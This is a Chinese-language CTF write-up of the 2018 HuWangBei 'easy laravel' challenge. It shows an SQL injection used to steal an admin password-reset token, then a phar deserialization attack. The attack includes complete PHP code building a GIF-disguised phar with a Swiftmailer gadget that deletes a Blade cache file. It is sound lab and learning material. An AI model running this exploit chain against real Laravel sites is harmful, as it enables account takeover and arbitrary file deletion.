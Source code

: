 ```yaml
---
layout: post
title:  护网杯-easy laravel-Writeup
noToc: true
date:   2018-10-14 16:30:00+800
tags: WEB CTF 护网杯
cover: '../assets/test1.png'
---
```


##  护网杯-easy laravel-Writeup

​                                   <center> Category: [PHP](http://www.venenof.com/index.php/category/PHP/), [CTF](http://www.venenof.com/index.php/category/CTF/), [Web](http://www.venenof.com/index.php/category/Web/)</center>

​                                    <center> 转载venenof</center>

​                                      文章来自原venenof-[Web](http://www.venenof.com/index.php/category/Web/)

护网杯碰到一个`Laravel`的代码审计题目，刚好最近在用`LA`写平台，于是就很感兴趣，题目整体不难，对`Laravel`框架熟悉就可以做，但整个利用链构造的比较巧妙，感谢出题人@4uuu Nya出了这么一个有意思的题目。

------

源码可以发现`https://github.com/qqqqqqvq/easy_laravel`，下载下来本地看一下源码：

```
$factory->define(App\User::class, function (Faker\Generator $faker) {
    static $password;

    return [
        'name' => '4uuu Nya',
        'email' => 'admin@qvq.im',
        'password' => bcrypt(str_random(40)),
        'remember_token' => str_random(10),
    ];
});
```

很显然，管理员的登陆邮箱已经知道了，同时也知道密码是随机`40`位字符串，基本不可能爆破。

看一下路由，发现只有`note`可以在非admin用户下访问，看一下`NoteController`:

```
public function index(Note $note)
{
    $username = Auth::user()->name;
    $notes = DB::select("SELECT * FROM `notes` WHERE `author`='{$username}'");
    return view('note', compact('notes'));
}
```

明显的`sqli`，我们可以获取任何数据库中的内容，但是密码我们即使拿到了也没有什么用，我们发现其注册登陆的整个流程都是`Laravel`官方推荐的，也就是管理员肯定是这么安装的：

```
php artisan make:auth
```

既然没有重构这部分代码，也就意味着我们可以去重置管理员密码，点击重置密码时，输入管理员邮箱`admin@qvq.im`，那么`password_resets`中会更新一个token，访问`/password/reset/token`即可重置密码，首先利用注入拿到token：
 ![web1.png](http://www.venenof.com/usr/uploads/2018/10/3884211593.png)
 然后修改密码即可:
 ![web2.png](http://www.venenof.com/usr/uploads/2018/10/2368972807.png)

> Blade 模版

进入后台后，访问`http://49.4.78.51:32310/flag`是提示`no flag`，但是我们看一下`FlagController`

```
    public function showFlag()
    {
        $flag = file_get_contents('/th1s1s_F14g_2333333');
        return view('auth.flag')->with('flag', $flag);
    }
```

很明显，blade渲染的跟我们看到的明显不一样，如果用`Laravel`写过东西，经常会遇到这种问题，明明blade更新了，页面却没有显示，这都是因为`Laravel`的模版缓存，很明显，现在我们需要去更改flag的模版缓存，缓存文件的名字是laravel自动生成的，生成方法如下：

```
/**
     * Get the path to the compiled version of a view.
     *
     * @param  string  $path
     * @return string
*/
public function getCompiledPath($path)
{
    return $this->cachePath.'/'.sha1($path).'.php';
}
```

但是整个站的逻辑很简单，没有其他文件操作的点，那么就剩下了`UploadController`，只能上传图片，但是有一个方法引起了我的兴趣：

```
public function check(Request $request)
{
    $path = $request->input('path', $this->path);
    $filename = $request->input('filename', null);
    if($filename){
        if(!file_exists($path . $filename)){
            Flash::error('磁盘文件已删除，刷新文件列表');
        }else{
            Flash::success('文件有效');
        }
    }
    return redirect(route('files'));
}
```

`path`跟`filename`没有任何过滤，而我们可以利用`file_exists`去操作phar包，这里很明显存在一个反序列化，于是现在的思路很明确：

`phar反序列化=>文件操作删除或者移除=>laravel重新渲染blade=>读取flag`

看了下`composer`，发现都是默认组件，于是全局搜一下`unlink`，在`Swift_ByteStream_TemporaryFileByteStream`的析构函数中存在`unlink`方法:
 ![nnn.png](http://www.venenof.com/usr/uploads/2018/10/577144858.png)
 于是直接构造即可:

```
<?php
class Swift_ByteStream_AbstractFilterableInputStream {
    /**
     * Write sequence.
     */
    protected $sequence = 0;
    /**
     * StreamFilters.
     *
     * @var Swift_StreamFilter[]
     */
    private $filters = [];
    /**
     * A buffer for writing.
     */
    private $writeBuffer = '';
    /**
     * Bound streams.
     *
     * @var Swift_InputByteStream[]
     */
    private $mirrors = [];
}
class Swift_ByteStream_FileByteStream extends Swift_ByteStream_AbstractFilterableInputStream {
    /** The internal pointer offset */
    private $_offset = 0;

    /** The path to the file */
    private $_path;

    /** The mode this file is opened in for writing */
    private $_mode;

    /** A lazy-loaded resource handle for reading the file */
    private $_reader;

    /** A lazy-loaded resource handle for writing the file */
    private $_writer;

    /** If magic_quotes_runtime is on, this will be true */
    private $_quotes = false;

    /** If stream is seekable true/false, or null if not known */
    private $_seekable = null;

    /**
     * Create a new FileByteStream for $path.
     *
     * @param string $path
     * @param bool   $writable if true
     */
    public function __construct($path, $writable = false)
    {
        $this->_path = $path;
        $this->_mode = $writable ? 'w+b' : 'rb';

        if (function_exists('get_magic_quotes_runtime') && @get_magic_quotes_runtime() == 1) {
            $this->_quotes = true;
        }
    }

    /**
     * Get the complete path to the file.
     *
     * @return string
     */
    public function getPath()
    {
        return $this->_path;
    }
}
class Swift_ByteStream_TemporaryFileByteStream extends Swift_ByteStream_FileByteStream {
    public function __construct() {
        $filePath = "/usr/share/nginx/html/storage/framework/views/34e41df0934a75437873264cd28e2d835bc38772.php";
        parent::__construct($filePath, true);
    }
    public function __destruct() {
        if (file_exists($this->getPath())) {
            @unlink($this->getPath());
        }
    }
}
$obj = new Swift_ByteStream_TemporaryFileByteStream();
$p = new Phar('./1.phar', 0);
$p->startBuffering();
$p->setStub('GIF89a<?php __HALT_COMPILER(); ?>');
$p->setMetadata($obj);
$p->addFromString('1.txt','text');
$p->stopBuffering();
rename('./1.phar', '1.gif');
?>
```

然后上传，`check`的时候触发反序列化即可删除模版文件，然后访问`flag`路由拿到flag:-P
 ![x.png](http://www.venenof.com/usr/uploads/2018/10/714312758.png)